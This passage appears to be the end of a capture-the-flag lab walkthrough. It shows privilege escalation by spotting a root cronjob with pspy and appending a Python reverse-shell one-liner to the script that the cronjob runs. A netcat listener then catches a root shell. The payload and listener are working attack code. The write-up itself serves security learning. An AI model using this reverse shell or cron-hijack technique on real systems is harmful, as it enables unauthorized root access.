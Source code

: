 Then we can make `pspy` executable and run with!
```
chmod +x pspy
./pspy -i 1
```

And huzzah! It looks like `root` is running a `cronjob`:
```
2022/11/07 09:53:01 CMD: UID=0     PID=3594   | /usr/bin/python3 /opt/nextGenMon.py 
2022/11/07 09:53:01 CMD: UID=0     PID=3593   | /bin/sh -c /usr/bin/python3 /opt/nextGenMon.py 
```

Now it's kind of only your imagination that sets the limits. Just going with a reverse python shell locally on the box. Adding the following line to `nextGenMon.py`:
```
import os,pty,socket;s=socket.socket();s.connect(("127.0.0.1",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

and setting up a listener with:
```
nc -lvnp 1337
```

After a minute:
```
root@ip-10-0-0-91:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-0-0-91:~# cat root.txt |wc -c
cat root.txt |wc -c
```

And the box is rooted!

## Links
[1] https://www.kali.org/
[2] https://book.hacktricks.xyz/pentesting-web/file-inclusion
[3] https://github.com/DominicBreuker/pspy
